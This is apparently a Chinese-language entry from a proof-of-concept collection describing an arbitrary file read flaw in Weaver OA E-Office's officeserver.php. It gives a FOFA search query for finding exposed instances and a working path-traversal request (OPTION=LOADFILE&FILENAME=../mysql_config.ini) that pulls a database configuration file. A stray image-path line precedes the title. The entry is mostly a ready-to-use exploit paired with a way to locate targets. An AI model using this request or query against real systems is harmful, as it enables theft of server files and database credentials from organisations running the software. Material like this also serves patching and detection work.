 # 泛微OA E-Office officeserver.php 任意文件读取漏洞

## 漏洞描述

泛微OA E-Office officeserver.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>泛微OA E-Office</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629190834596-c2c639a7-1fb7-4934-95ad-1d571629e383-20220313185607234.png)

验证POC

```javascript
/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646044472614-5b3e654f-bde4-44e4-81b5-184c21585029.png)